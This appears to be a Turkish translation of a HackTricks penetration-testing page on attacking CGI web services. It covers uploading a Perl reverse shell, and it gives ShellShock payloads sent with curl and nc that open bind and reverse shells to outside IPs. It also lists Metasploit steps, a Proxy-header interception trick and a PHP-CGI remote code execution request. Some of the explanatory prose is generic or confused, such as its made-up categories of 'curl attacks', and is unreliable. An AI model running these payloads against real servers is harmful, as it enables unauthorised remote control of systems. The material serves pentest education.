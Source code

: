 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizin **HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** isterseniz [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünleri**](https://peass.creator-spring.com)'ni edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzdaki özel [**NFT'leri**](https://opensea.io/collection/the-peass-family) keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)'u **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>


# Bilgi

**CGI betikleri perl betikleridir**, bu yüzden, **.cgi** betiklerini çalıştırabilen bir sunucuyu ele geçirdiyseniz, bir perl ters kabuk yükleyebilirsiniz \(`/usr/share/webshells/perl/perl-reverse-shell.pl`\), **uzantıyı** **.pl**'den **.cgi**'ye değiştirin, **çalıştırma izinleri** verin \(`chmod +x`\) ve web tarayıcısından ters kabuğa **erişin** ve çalıştırın.
**CGI zafiyetlerini** test etmek için `nikto -C all` \(ve tüm eklentileri\) kullanmanız önerilir.

# **ShellShock**

**ShellShock**, Unix tabanlı işletim sistemlerinde yaygın olarak kullanılan **Bash** komut satırı kabuğunu etkileyen bir **zafiyettir**. Bu, Bash'in uygulamalar tarafından iletilen komutları çalıştırma yeteneğini hedefler. Zafiyet, işlemlerin nasıl çalıştığını etkileyen dinamik adlı değerler olan **çevre değişkenlerinin** manipülasyonunda yatmaktadır. Saldırganlar, çevre değişkenlerine **zararlı kod** ekleyerek, değişkeni aldıklarında bu kodun çalıştırılmasını sağlayabilir. Bu, saldırganların potansiyel olarak sistemi ele geçirmesine olanak tanır.

Bu zafiyeti **sayfa hata verebilir** şeklinde fark ederek bulabilirsiniz.

Bu zafiyeti **eski bir Apache sürümü** ve **cgi\_mod** \(cgi klasörüyle\) kullanarak veya **nikto** kullanarak bulabilirsiniz.

## **Test**

Çoğu test, bir şeyi ekrana yazdırıp o dizenin web yanıtında döndürülmesini beklemeye dayanır. Bir sayfanın zafiyete açık olabileceğini düşünüyorsanız, tüm cgi sayfalarını arayın ve bunları test edin.

**Nmap**
```bash
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```
## **Curl \(yansıtılan, kör ve bağımsız\)**

Curl, bir web uygulamasının güvenlik açıklarını tespit etmek için yaygın olarak kullanılan bir komut satırı aracıdır. Curl, HTTP, HTTPS, FTP, SMTP ve diğer birçok protokolü destekler. Bu nedenle, bir web uygulamasını hedef alırken Curl'ü kullanmak oldukça faydalı olabilir.

### **Yansıtılan Curl**

Yansıtılan Curl saldırıları, kullanıcının girdilerinin doğrudan web uygulaması tarafından yanıt olarak döndürüldüğü durumlarda gerçekleştirilir. Bu saldırı türü, kullanıcının girdilerini manipüle ederek, kötü niyetli kod enjekte etmek veya hassas verileri çalmak için kullanılabilir.

### **Kör Curl**

Kör Curl saldırıları, web uygulamasının yanıtını doğrudan göremediğimiz durumlarda gerçekleştirilir. Bu saldırı türünde, saldırgan, web uygulamasının yanıtını başka bir kanal aracılığıyla alır. Örneğin, saldırgan, bir DNS sunucusuna istek göndererek veya bir e-posta göndererek yanıtı alabilir.

### **Bağımsız Curl**

Bağımsız Curl saldırıları, web uygulamasının yanıtını beklemek yerine, saldırganın kontrol ettiği bir sunucuya yanıtı gönderdiği durumlarda gerçekleştirilir. Bu saldırı türü, saldırganın hedef web uygulamasına zarar vermek veya hassas verileri çalmak için kullanılabilir.
```bash
# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi
# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh
```
[**Shellsocker**](https://github.com/liamim/shellshocker)
```bash
python shellshocker.py http://10.11.1.71/cgi-bin/admin.cgi
```
## Sömürü

Exploiting, bir hedef sistemdeki zayıflıkları veya güvenlik açıklarını kullanarak yetkisiz erişim elde etmek veya hedef sistemde istenmeyen bir davranış gerçekleştirmek anlamına gelir. Bu bölümde, CGI (Common Gateway Interface) hizmetlerini hedef alarak nasıl sömürü yapabileceğinizi öğreneceksiniz.

### CGI Sömürüsü

CGI, web sunucusu ve harici programlar arasında iletişim sağlayan bir protokoldür. CGI hizmetlerini hedef alarak sömürü yapmak, hedef sistemdeki güvenlik açıklarını kullanarak yetkisiz erişim elde etmek veya hedef sistemde istenmeyen bir davranış gerçekleştirmek anlamına gelir.

CGI hizmetlerini sömürmek için aşağıdaki adımları izleyebilirsiniz:

1. Hedef web uygulamasında CGI hizmetlerini belirleyin.
2. CGI hizmetlerinin güvenlik açıklarını araştırın ve zayıf noktalarını belirleyin.
3. Sömürü için uygun bir saldırı vektörü seçin.
4. Sömürüyü gerçekleştirmek için gerekli araçları kullanın.
5. Sömürü sonucunda elde edilen yetkisiz erişimi veya istenmeyen davranışı kullanarak hedef sistemde istediğiniz işlemleri gerçekleştirin.

CGI hizmetlerini sömürmek için yaygın olarak kullanılan bazı saldırı vektörleri şunlardır:

- Command Injection (Komut Enjeksiyonu): Hedef sistemdeki komutları çalıştırmak için kullanılır.
- File Inclusion (Dosya Dahil Etme): Hedef sistemdeki dosyalara erişmek veya çalıştırmak için kullanılır.
- Remote Code Execution (Uzaktan Kod Yürütme): Hedef sistemdeki uzaktan kod yürütme yeteneğini kullanarak istenmeyen işlemler gerçekleştirir.

CGI hizmetlerini sömürmek için kullanılan araçlar arasında `Metasploit`, `Nmap`, `Burp Suite` ve `ExploitDB` gibi popüler araçlar bulunmaktadır.

CGI hizmetlerini sömürürken dikkate almanız gereken bazı önemli noktalar şunlardır:

- Hedef sistemdeki CGI hizmetlerinin güncel olup olmadığını kontrol edin.
- Sömürü yapmadan önce hedef sistemdeki güvenlik açıklarını tam olarak anlayın.
- Sömürü yaparken iz bırakmamak için gerekli önlemleri alın.
- Sömürü sonucunda elde edilen yetkisiz erişimi veya istenmeyen davranışı dikkatli bir şekilde kullanın ve hedef sistemde zararlı bir etki bırakmamaya özen gösterin.

CGI hizmetlerini sömürmek, hedef sistemde yetkisiz erişim elde etmek veya istenmeyen bir davranış gerçekleştirmek için etkili bir yöntem olabilir. Ancak, bu tür saldırılar yasa dışıdır ve yalnızca yasal izinlerle gerçekleştirilmelidir.
```bash
#Bind Shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 8
#Reverse shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
#Reverse shell using curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.11.0.41/80 0>&1' http://10.1.2.11/cgi-bin/admin.cgi
#Reverse shell using metasploit
> use multi/http/apache_mod_cgi_bash_env_exec
> set targeturi /cgi-bin/admin.cgi
> set rhosts 10.1.2.11
> run
```
# **Proxy \(Web sunucusu isteklerine MitM\)**

CGI, http isteğindeki her başlık için bir ortam değişkeni oluşturur. Örneğin: "host:web.com" "HTTP\_HOST"="web.com" olarak oluşturulur.

Web sunucusu tarafından HTTP\_PROXY değişkeni kullanılabileceğinden, "**Proxy: &lt;IP\_saldırgan&gt;:&lt;PORT&gt;**" başlığını içeren bir **header** göndermeyi deneyin ve sunucu oturumu sırasında herhangi bir istek yaparsa, sunucu tarafından yapılan her isteği yakalayabilirsiniz.

# Eski PHP + CGI = RCE \(CVE-2012-1823, CVE-2012-2311\)

Temel olarak, cgi etkinse ve php "eski" ise \(&lt;5.3.12 / &lt; 5.4.2\), kodu yürütebilirsiniz.
Bu zafiyeti sömürmek için, web sunucusunun bazı PHP dosyalarına parametre göndermeden \(özellikle "=" karakterini göndermeden\) erişmeniz gerekmektedir.
Ardından, bu zafiyeti test etmek için örneğin `/index.php?-s` \(dikkat `-s`\) adresine erişebilir ve **uygulamanın kaynak kodu yanıtta görünecektir**.

Daha sonra, **RCE** elde etmek için bu özel sorguyu gönderebilirsiniz: `/?-d allow_url_include=1 -d auto_prepend_file=php://input` ve **istek gövdesinde yürütülecek PHP kodunu** gönderin.
Örnek:
```bash
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://jh2i.com:50008/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```
**Vuln hakkında daha fazla bilgi ve olası saldırılar:** [**https://www.zero-day.cz/database/337/**](https://www.zero-day.cz/database/337/)**,** [**cve-2012-1823**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-1823)**,** [**cve-2012-2311**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-2311)**,** [**CTF Örneği**](https://github.com/W3rni0/HacktivityCon_CTF_2020#gi-joe)**.**



<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman olmaya kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek veya HackTricks'i PDF olarak indirmek isterseniz** [**ABONELİK PLANLARI'na**](https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family)
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* **Hacking hilelerinizi HackTricks ve HackTricks Cloud github reposuna PR göndererek paylaşın**.

</details>
